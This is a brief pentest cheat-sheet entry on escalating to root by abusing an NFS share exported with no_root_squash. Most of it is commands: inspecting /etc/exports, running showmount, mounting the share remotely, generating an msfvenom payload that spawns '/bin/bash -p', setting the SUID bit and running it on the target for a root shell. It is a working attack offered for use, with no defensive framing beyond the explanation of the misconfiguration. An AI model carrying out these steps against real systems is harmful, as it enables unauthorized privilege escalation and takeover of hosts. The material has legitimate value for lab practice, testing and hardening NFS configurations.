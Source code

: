 # NFS

Check the contents of `/etc/exports` for shares with the `no_root_squash` option:

```bash
$ cat /etc/exports
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

No_root_squash means that we can write as root user to that location.

Confirm that the NFS share is available for remote mounting:

```bash
$ showmount -e <TARGET IP>
```

## Exploit

Create a mount point on your local machine and mount the /tmp NFS share:

```bash
$ mkdir /tmp/nfs 
$ mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs
```

Using the root user on your local machine, generate a payload and save it to the mounted share:

```bash
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Make sure the file has the SUID bit set, and is executable by everyone:

```bash
$ chmod +xs /tmp/nfs/shell.elf
```

On the target machine, execute the file to get a root shell:

```bash
$ /tmp/shell.elf
```